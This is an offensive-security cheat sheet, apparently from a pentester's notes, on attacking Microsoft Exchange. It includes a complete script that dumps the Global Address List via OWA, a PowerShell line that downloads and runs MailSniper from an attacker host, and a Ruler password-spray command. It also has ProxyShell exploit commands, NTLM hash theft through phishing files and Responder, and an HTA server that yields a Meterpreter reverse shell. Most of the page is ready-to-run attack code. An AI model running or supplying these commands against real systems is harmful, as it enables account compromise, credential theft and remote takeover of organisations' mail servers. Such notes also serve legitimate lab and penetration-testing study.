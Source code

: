 ```yaml
---
description: For external and internal email.
---
```


# Exchange

To enumerate the version of Microsoft Exchange

```sh
curl https://10.129.132.217/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version 
```

### <mark style="color:yellow;">Exporting username list</mark>

If we already have access to a computer within the domain or an email. [https://github.com/pigeonburger/global-address-list-owa](https://github.com/pigeonburger/global-address-list-owa)

<details>

<summary>Modified script to bypass SSL errors</summary>

```
# Extraction of the Global Address List (GAL) on Exchange >=2013 servers via Outlook Web Access (OWA) 
# By Pigeonburger, June 2021
# https://github.com/pigeonburger

# module import heehoo
import requests, json, argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# argparser hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
parser = argparse.ArgumentParser(description="Extract the Global Address List (GAL) on Exchange 2013 servers via Outlook Web Access (OWA)")
parser.add_argument("-i", "--host", dest="hostname",
                  help="Hostname for the Exchange Server", metavar="HOSTNAME", type=str, required=True)
parser.add_argument("-u", "--username", dest="username",
                  help="A username to log in", metavar="USERNAME", type=str, required=True)
parser.add_argument("-p", "--password", dest="password",
                  help="A password to log in", metavar="PASSWORD", type=str, required=True)
parser.add_argument("-o", "--output-file", dest="output",
                  help="Specify file to output emails to (default is global_address_list.txt)", metavar="OUTPUT FILE", type=str, default="global_address_list.txt")

args = parser.parse_args()

url = args.hostname
USERNAME = args.username
PASSWORD = args.password
OUTPUT = args.output


# Start the session
s = requests.Session()
print("Connecting to %s/owa" % url)


# Get OWA landing page
# Add https:// scheme if not already added in the --host arg
try:
    s.get(url+"/owa", verify=False)
    URL = url
except requests.exceptions.MissingSchema:
    s.get("https://"+url+"/owa", verify=False)
    URL = "https://"+url


# Other URLs we need later
AUTH_URL = URL+"/owa/auth.owa"
PEOPLE_FILTERS_URL = URL + "/owa/service.svc?action=GetPeopleFilters"
FIND_PEOPLE_URL = URL + "/owa/service.svc?action=FindPeople"


# Attempt a login to OWA
login_data={"username":USERNAME, "password":PASSWORD, 'destination': URL, 'flags': '4', 'forcedownlevel': '0'}
r = s.post(AUTH_URL, data=login_data, headers={'user-agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}, verify=False)


# The Canary is a unique ID thing provided upon a successful login that's also required in the header for the next few requests to be successful.
# Even upon an incorrect login, OWA still gives a 200 status, so we can also check if the login was successful by seeing if this cookie was set or not.
try:
    session_canary = s.cookies['X-OWA-CANARY']
except:
    exit("\nInvalid Login Details. Login Failed.")
print("\nLogin Successful!\nCanary key:", session_canary)


# Returns an object containing the IDs of all accessible address lists, so we can specify one in the FindPeople request
r = s.post(PEOPLE_FILTERS_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'GetPeopleFilters'}, data={}, verify=False).json()


# Find the Global Address List id
for i in r:
    if i['DisplayName'] == "Default Global Address List":
        AddressListId = i['FolderId']['Id']
        print("Global List Address ID:", AddressListId)
        break


# Set to None to return all emails in the list (this is the search term for the FindPeople request)
query = None


# Set the max results for the FindPeople request.
max_results = 99999


# POST data for the FindPeople request
peopledata = {
    "__type": "FindPeopleJsonRequest:#Exchange",
    "Header": {
        "__type": "JsonRequestHeaders:#Exchange",
        "RequestServerVersion": "Exchange2013",
        "TimeZoneContext": {
            "__type": "TimeZoneContext:#Exchange",
            "TimeZoneDefinition": {
                "__type": "TimeZoneDefinitionType:#Exchange",
                "Id": "AUS Eastern Standard Time"
            }
        }
    },
    "Body": {
        "__type": "FindPeopleRequest:#Exchange",
        "IndexedPageItemView": {
            "__type": "IndexedPageView:#Exchange",
            "BasePoint": "Beginning",
            "Offset": 0,
            "MaxEntriesReturned": max_results
        },
        "QueryString": query,
        "ParentFolderId": {
            "__type": "TargetFolderId:#Exchange",
            "BaseFolderId": {
                "__type": "AddressListId:#Exchange",
                "Id": AddressListId
            }
        },
        "PersonaShape": {
            "__type": "PersonaResponseShape:#Exchange",
            "BaseShape": "Default"
        },
        "ShouldResolveOneOffEmailAddress": False
    }
}


# Make da request.
r = s.post(FIND_PEOPLE_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'FindPeople'}, data=json.dumps(peopledata), verify=False).json()


# Parse out the emails, print them and append them to a file.
userlist = r['Body']['ResultSet']

with open(OUTPUT, 'a+') as outputfile:
    for user in userlist:
        email = user['EmailAddresses'][0]['EmailAddress']
        outputfile.write(email+"\n")
        print(email)

print("\nFetched %s emails" % str(len(userlist)))
print("Emails written to", OUTPUT)
```

</details>

```sh
python3 emailextract.py -i exch01.zencorp.local -u zen@zencorp.ocal -p 'pass@123'
```

#### Or use windows

PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.228:8000/MailSniper.ps1') PS C:\Tools> Get-GlobalAddressList -ExchHostname exch01.zencorp.local -Username zen -Password 'pass@123' -OutFile globaladdresslist.txt

### <mark style="color:yellow;">Password Spray</mark>

Use Ruler for password Spray

```sh
./ruler-linux64 --domain zencorp.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4
```

### <mark style="color:yellow;">ProxyShell</mark>

```sh
proxyshell.py -u https://10.129.230.42/ -e Administrator@zencorp.local 
```

Or use metasploit

```shell
use exploit/windows/http/exchange_proxyshell_rce
```

### <mark style="color:yellow;">Phishing Attacks</mark>

Generate a htm file with ntlm\_theft, create htm file, attach in email and capture in Responder

```sh
# Create html file
python3 ntlm_theft.py -g htm -s 10.10.14.80 -f students

# Responder
sudo responder -I tun0
```

#### Arbitrary File Execution

With [https://www.shellterproject.com/](https://www.shellterproject.com/) its possible to take a legit executable and inject a malicious code to get a reverse shell.&#x20;

#### Create a HTA file

```sh
# It will create and host the .hta file
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST 10.10.14.207; set LPORT 8443; set SRVHOST 10.10.14.207; run -j"

# Send the link and once clicked
[*] Meterpreter session 1 opened (10.10.14.207:8443 -> 10.129.231.81:62367) at 2024-08-13 17:52:01 -0400
```

